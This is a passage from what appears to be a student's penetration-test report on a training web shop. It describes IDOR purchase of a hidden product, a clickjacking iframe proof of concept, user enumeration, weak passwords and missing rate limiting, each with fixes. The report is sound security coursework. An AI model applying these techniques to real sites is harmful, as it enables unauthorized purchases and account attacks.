        "description": "Stay warm while you breach firewalls. 100% Cotton, blackest black.",
        "price": "49.99",
        "image": "placeholder.jpg",
        "is_released": "1",
        "is_available_in_region": "1"
    },
    {
        "id": "2",
        "name": "Mechanical Keyboard",
        "description": "Blue switches for the loudest typing experience possible.",
        "price": "120.00",
        "image": "placeholder.jpg",
        "is_released": "1",
        "is_available_in_region": "1"
    },
    {
        "id": "3",
        "name": "Encrypted USB Drive",
        "description": "Hardware encryption to keep your payloads safe.",
        "price": "85.00",
        "image": "placeholder.jpg",
        "is_released": "1",
        "is_available_in_region": "1"
    },
    {
        "id": "4",
        "name": "WiFi Deauther Watch",
        "description": "Disconnect annoyance with style. Wearable packet injection.",
        "price": "65.00",
        "image": "placeholder.jpg",
        "is_released": "1",
        "is_available_in_region": "1"
    },
    {
        "id": "5",
        "name": "Flipper Zero (Restricted)",
        "description": "The ultimate multi-tool for geeks. RESTRICTED ITEM.",
        "price": "169.00",
        "image": "placeholder.jpg",
        "is_released": "1",
        "is_available_in_region": "0"
    },
    {
        "id": "6",
        "name": "Quantum Decryptor (Unreleased)",
        "description": "Decrypts anything instantly. FUTURE TECH.",
        "price": "9999.00",
        "image": "placeholder.jpg",
        "is_released": "0",
        "is_available_in_region": "1"
    }
]
```

The attacker can discover the hidden product Quantum Decryptor (Unreleased) and try to purchase it.

**Fix**

Only display available products in the API.

---

### Medium Finding 8: Unauthorized Purchase on Unreleased Product using IDOR

**Introduction**

Medium Finding 7 confirms that hidden product Quantum Decryptor is not yet released. An attacker can buy the unreleased item using IDOR, which is not authorized.

**PoC**

The attacker can find the hidden `product_id` input.


In the request, it looks like the following.


The attacker can change the `product_id` to 6, which is the hidden product Quantum Decryptor (Unreleased).


The attacker can also make the purchase by changing the id in `product.php`.


As a result, the attacker purchase the unreleased product.


**Fix**

1. Remove the entry from the `/api/products/all.php` API
2. Enforce Server-side checking.

---

### Medium Finding 9: ClickJacking

**Introduction**

An attacker can include Hack Smarter Store using a iframe, and perform clickjacking, tricking the user to perform certain actions. 

**PoC**

An attacker can host a website like the following.


The iframe reference the Hack Smarter Store using the `src` attribute. The entire code is as follows:

```bash
<!DOCTYPE html>

<header>

<body>

<h1>Total Legit Site:)</h1>

<iframe src='http://hacksmarter.hsm' width=2000 height=2000></iframe>

</body>

</html>
```

An attacker can make less obvious by turning down the opacity, and create a `claim prize money` button to lurk the user to click, and secretly perform certain action in Hack Smarter Store.

**Fix**

Set `X-Frame-Options` to `DENY` or `ORIGIN` to prevent attacker from embedding the site.

---

### Medium Finding 10: User Enumeration through Different Response in Login and Registration Page

**Introduction**

The Login and Registration page return difference response on registered users and non-existing users.

The below examples will be using `test` (non-existing) and `admin` in the username fields, with the password `test` (wrong password).

**Login Page**

The website returns `User not found.` with a fabricated username.


But with a valid username, it returns `incorrect password.`


**Registration Page**

A username that has not been taken will return registration successful.


 ‘The username is already taken.’ is returned under a registered username.


A attacker can based on the response and deduce valid users, and then perform password spraying on valid user.

**Fix**

Return a general response on registered and non-existing user.

---

### Medium Finding 10: Weak Password Policy

**Introduction**

The registration process do not check for username nor password length, and allow user to register with weak credential.

PoC

For example, a user can register with a username `1` and password `1`


The above password is very insecure and can be compromised in seconds.

**Fix**

Enforce minimial username and password length. For password, ensure it contains uppercase letter, lowercase letter, digits and special characters to improve the password complexity.

---

## Low Findings

### Low Finding 1: Missing Rate Limiting

**Introduction**

The web application do not introduce rate limiting, allowing an attacker to exhaust the resouces.

**PoC**

For example, the attacker can try to perform password spraying on the `admin` account. The attacker can still receieve status 200 (OK) after sending near 250 requests within 30 seconds.


**Fix**
Enforce rate limiting with IP as the identifier.

---

### Low Finding 2: Unfinished Password Recovery Function

**Introduction**

In the Reset Password Page, there is a section allow user to enter the received 4 digit Code. However, no reset code is sent. and enter any recovery code will result in 404 Not Found. User cannot use the function to recover their accounts.


**PoC**
When a user enters the recovery code (e.g. `1234`), it will display the Not Found error page.


A user can try every combinations, and all ends with 404 Not Found.

## Conclusion

The penetration test conducted against Hack Smarter Store between October 27 and October 29, 2026, identified **23 vulnerabilities**, including 2 Critical, 9 High, 10 Medium, and 2 Low severity findings. Major vulnerabilities included SQL injection, XSS, SSRF, IDOR, insecure session configurations, and remote code execution through the administrator's logo upload functionality.

These findings indicate significant security risks that could lead to sensitive data exposure, session compromise, and server compromise. Hack Smarter should prioritize remediating Critical and High severity vulnerabilities, strengthen input validation and authentication controls, secure session management, and enforce strict file upload restrictions. A follow-up penetration test is recommended to verify that the vulnerabilities have been effectively addressed.

## After Thoughts

This writeup was heavily inspired by [**Liam Smydo**](https://liamsmydo.com/projects/hacksmarter-capstone/#table-of-contents). His excellent writeup helps me to construct my very first penetration testing report. Many Thanks!

The course overall teaches me the methodology and the mindset a penetration tester should have and I have grateful to have taken this course. 

I will continue moving forward…
